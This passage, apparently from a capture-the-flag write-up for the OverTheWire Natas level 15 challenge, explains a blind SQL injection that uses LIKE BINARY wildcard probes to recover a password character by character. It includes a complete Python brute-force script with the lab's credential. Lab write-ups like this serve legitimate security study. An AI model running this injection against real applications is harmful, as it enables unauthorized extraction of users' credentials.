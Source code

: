 Initially, we know nothing about the password, hence we start from `<guess_char>%`. `guess_char` is the character we are guessing in the first position, the guess space is all the alphanumeric characters. The correct guess will return the response of `"This user exists."`. Let's say the character in the first position of the password is `T`, the next guess of the password is going to be `T<guess_char>%`. We will repeat this procedure until the length of the string preceding the `%` sign is equal to 32 (the size of all the password in all of the levels). 

To make the process less tedious, we can use the Intruder functionality from Burp Suite, but unfortunately Burp Suite has very silly rate limiting and throttling if you did not purchase a license. OWASP Zap is another candidate, but again, unfortunately the process of guessing on OWASP Zap using the Fuzz functionality is very tedious with 32 character strings. Therefore, to generate the guess fast and smartly, we can employ Python `requests` library to do the job.

As brute-forcing the entire set of alphanumeric characters for every position in the password string takes considerable time (lots of overhead with establishing connection with challenge server), we can narrow down the search space by only searching on the set of characters that actually appear in the password. We can use the double `%` in MySQL to do the work. `%a%` matches any string that contains the letter `a`. Hence, we can traverse through the list of all alphanumeric characters, and check whether it exists in the password of the user `natas16`. The SQL query to check if the character `T` exists in the password will look like this, note that `binary` is also used to respect the case-sensitiveness of the password:

```sql
SELECT * from users where username="natas16" and password like binary "%T%"
```

The username field will look something like `natas16" and password like binary %T%`. After generating the trimmed down character set, we can proceed to guessing the character in every position of the password with the idea given above. 

The code for all of the aforementioned operation:

```python
import string 
import requests 

alphanumeric = list(string.ascii_lowercase + string.ascii_uppercase + string.digits)
charset = ""
password = ""
target = 'http://natas15.natas.labs.overthewire.org'

# Generating the charset for the brute forcing
for char in alphanumeric:
    username = 'natas16" and password like binary "%' + char + '%'
    r = requests.get(target, 
        auth=('natas15', 'TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB'),
        params={"username": username}
        )
    if "This user exists" in r.text:
        charset += char

print("The charset used is: " + charset)

# Guessing every position in the password string 
# As the type of password is varchar(64), just to be safe the loop runs 64 times for 64 possible positions
for i in range(64):
    for char in charset:
        guess = password + char
        username = 'natas16" and password like binary "' + guess + '%'
        r = requests.get(target, 
            auth=('natas15', 'TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB'),
            params={"username": username}
            )
        if "This user exists" in r.text:
            password += char 
            print("Iteration " + str(i + 1) + ": " + guess)
```